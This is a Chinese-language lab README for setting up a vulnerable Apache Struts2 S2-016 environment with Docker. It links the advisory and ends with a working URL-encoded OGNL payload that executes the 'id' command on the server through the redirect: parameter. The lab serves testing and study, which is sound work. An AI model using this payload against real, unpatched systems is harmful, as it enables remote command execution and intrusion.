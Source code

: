 ## Struts2 S2-016 漏洞环境

### 漏洞信息

 * [S2-016 公告](http://struts.apache.org/docs/s2-016.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-016
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-016
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
/default.action?redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D
```

![](s2-016-1.png)

